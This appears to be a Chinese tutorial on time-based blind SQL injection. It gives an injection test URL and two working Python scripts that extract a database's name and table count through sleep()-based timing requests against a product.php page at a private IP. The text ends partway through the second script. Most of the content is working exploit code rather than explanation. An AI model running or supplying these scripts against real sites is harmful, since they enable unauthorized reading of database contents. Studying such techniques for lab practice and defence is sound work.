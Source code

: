 `sleep()`函数是时间盲注的核心，我们使用这个函数，通过页面的响应时间来判断条件是否正确。从而获得数据

##### 是否存在注入点

```shell
http://localhost/?id=a'and sleep(5) -- qqqq
//如果存在注入点，web服务将在五秒后才会返回数据
```

##### 获取数据库库名

python脚本(未测试)

```python
import time
import requests

payload = ''
num_1 = 1

while True:
    url_database_length = f"http://192.168.7.29/product.php?id=13' and if(char_length(database())<={num_1},sleep(5),1) -- qqqqq"
    start = time.time()
    message = requests.get(url_database_length)
    stop = time.time()
    if stop - start >= 5:
        break
    num_1 += 1
print(f"数据库长度为：{num_1}位")
for i in range(1, num_1 + 1):
    for num_2 in range(33, 126):
        url_database_name = f"http://192.168.7.29/product.php?id=13' and if(ascii(substr(database(),{i},1))={num_2},sleep(5),1) -- " \
                            f"qqqqq "
        start = time.time()
        message = requests.get(url_database_name)
        stop = time.time()
        if stop - start >= 5:
            payload += chr(num_2)
            print(payload)

print(fr"数据库名:{payload}")

```

##### 获取表名

```python
import requests
import time

table_name = []
num_1 = 1
count = 0
while True:
    payload = ''
    url_tables_count = f"http://192.168.7.29/product.php?id=13' and if((select count(table_name) from information_schema.tables where " \
                       f"table_schema ='smartshop') <= {count},sleep(5),1) -- qqqqq "
    # print(f"获取表数量:{url_tables_count}")
    start = time.time()
    message = requests.get(url_tables_count)
    stop = time.time()
    if stop - start >= 5:
        print(f"有{count}个表")
        break
```